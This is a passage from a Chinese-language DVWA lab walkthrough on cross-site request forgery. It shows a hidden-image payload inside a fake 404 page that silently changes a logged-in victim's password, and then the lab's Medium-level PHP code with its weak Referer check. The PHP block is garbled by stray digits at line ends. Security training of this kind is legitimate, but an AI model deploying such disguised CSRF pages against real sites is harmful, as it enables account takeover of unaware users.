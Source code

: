 
现实攻击场景下，这种方法需要事先在公网上传一个攻击页面，诱骗受害者去访问，真正能够在受害者不知情的情况下完成CSRF攻击。这里为了方便演示（才不是我租不起服务器= =），就在本地写一个test.html，下面是具体代码。



```
<img src="http://192.168.153.130/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#" border="0" style="display:none;"/>       
<h1>404<h1>       
<h2>file not found.<h2>
```




当受害者访问test.html时，会误认为是自己点击的是一个失效的url，但实际上已经遭受了CSRF攻击，密码已经被修改为了hack。



 [![1.png](http://image.3001.net/images/20161031/14778955408376.png!small)](http://image.3001.net/images/20161031/14778955408376.png)



****Medium****

--------------



服务器端核心代码



```
<?php        
if( isset( $_GET[ 'Change' ] ) ) {       
    // Checks to see where the request came from       
    if( eregi( $_SERVER[ 'SERVER_NAME' ], $_SERVER[ 'HTTP_REFERER' ] ) ) {       
        // Get input       
        $pass_new  = $_GET[ 'password_new' ];       
        $pass_conf = $_GET[ 'password_conf' ];        1
        // Do the passwords match?       1
        if( $pass_new == $pass_conf ) {       1
            // They do!       1
            $pass_new = mysql_real_escape_string( $pass_new );       1
            $pass_new = md5( $pass_new );        1
            // Update the database       1
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";       1
            $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' );        2
            // Feedback for the user       2
            echo "<pre>Password Changed.</pre>";       2
        }       2
        else {       2
            // Issue with passwords matching       2
            echo "<pre>Passwords did not match.</pre>";       2
        }       2
    }       2
    else {       2
        // Didn't come from a trusted source       3
        echo "<pre>That request didn't look correct.</pre>";       3
    }        3
    mysql_close();       3
}        3
?>
```
